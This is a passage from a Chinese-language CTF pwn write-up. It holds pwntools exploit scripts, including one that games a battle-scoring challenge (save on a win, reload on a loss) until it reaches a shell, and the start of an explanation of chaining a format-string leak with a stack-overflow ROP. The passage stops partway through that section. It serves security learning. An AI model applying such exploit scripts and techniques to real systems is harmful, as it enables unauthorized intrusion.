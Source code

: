 ```python

payload5 = b'./flag\x00\x00' + payload5
p.send(payload5)

p.interactive()
```
![[Pasted image 20241120084842.png]]

### Sign in(复现)
看完wp有点绷不住，对战系统，赢了加分，输了扣分，敌方随机，总分达到1145以上就可以获取shell，解题方法：赢了存档，输了读档。~~游戏还是玩少了，这没想到~~
exp:
```python
from pwn import *
import pwnlib.gdb

context.log_level = 'debug'
local = True
if local:
    p = process('./Signin')
    # pwnlib.gdb.attach(p, 'b main')
else:
    p = remote('ctf.yuawn.id', 8009)
p.recvuntil('name: ')
p.sendline(b'lh')
p.sendline(b'6')
p.sendline()
# Berserker
score = 0
while score <= 1145:
    log.success('score: %d' % score)
    is_win = False
    p.sendline(b'1')
    p.sendlineafter(b'class:', 'Berserker')
    p.recvline()
    re = p.recv()
    if b'You beated' in re:
        score += 5
        is_win = True
    p.sendline()
    p.sendline()
    if score > 1145:
        p.interactive()
        break
    if is_win:
        p.sendline(b'6')
        p.sendline()
    else:
        p.sendline(b'5')
        p.sendline()
```
# Week 5
## PWN
### C_or_CPP(复现)
这道题本是一道简单的题目，两个漏洞，一个格式化字符串漏洞可以泄漏栈上信息，另一个栈溢出漏洞执行`ROP`获取`shell`
格式化字符串：
![[Pasted image 20241128170246.png]]
此处`printf`可以一直泄漏到`/x00`。
栈溢出：